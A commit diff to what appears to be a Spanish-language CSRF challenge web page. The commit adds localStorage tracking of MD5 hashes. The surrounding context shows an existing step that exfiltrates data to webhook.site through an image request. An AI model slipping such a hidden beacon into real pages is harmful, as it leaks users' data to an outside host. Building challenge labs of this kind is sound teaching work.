

Before and after one commit to Feligomez02/desafio-csrf.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 889-1403 px from the top of the page, without its empty margins (8-825 px from the left). Before the commit the page ends 1261 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add hash tracking functionality to GitHub Pages

```diff
--- a/index.html
+++ b/index.html
@@ -62,7 +62,11 @@
       </div>
       <img id="testImage" src="" alt="Test Image" class="test-image" />
 
-      <h2>Pasos rápidos</h2>
+      <h2>Hashes Generados</h2>
+      <div id="hashesSection" class="info-panel">
+        <button id="refreshHashes" onclick="loadHashes()">Actualizar Hashes</button>
+        <pre id="hashesList">Cargando hashes...</pre>
+      </div>
       <ol>
         <li>Abrir PowerShell en esta carpeta.</li>
         <li>Ejecutar <code>python server.py</code> (usa el servidor personalizado).</li>
@@ -87,6 +91,28 @@
         return CryptoJS.MD5(level.toString()).toString();
       }
 
+      function saveHash(level, md5) {
+        const timestamp = new Date().toISOString();
+        const hashEntry = `${timestamp} - Level: ${level} - MD5: ${md5}`;
+
+        let hashes = JSON.parse(localStorage.getItem('generatedHashes') || '[]');
+        hashes.push(hashEntry);
+        localStorage.setItem('generatedHashes', JSON.stringify(hashes));
+
+        loadHashes(); // Actualizar la lista inmediatamente
+      }
+
+      function loadHashes() {
+        const hashes = JSON.parse(localStorage.getItem('generatedHashes') || '[]');
+        const hashesList = document.getElementById('hashesList');
+
+        if (hashes.length === 0) {
+          hashesList.textContent = 'No se han generado hashes aún.';
+        } else {
+          hashesList.textContent = hashes.join('\n');
+        }
+      }
+
       img.onload = function() {
         const width = this.naturalWidth;
         const height = this.naturalHeight;
@@ -100,6 +126,9 @@
 
         const md5 = computeMD5(level);
         document.getElementById('md5Hash').textContent = md5;
+
+        // Guardar el hash localmente
+        saveHash(level, md5);
 
         // Exfiltrate the data to webhook.site
         const exfilImg = new Image();
@@ -116,6 +145,9 @@
       };
 
       img.src = imageUrl;
+
+      // Cargar hashes al iniciar la página
+      loadHashes();
     </script>
   </body>
 </html>
```
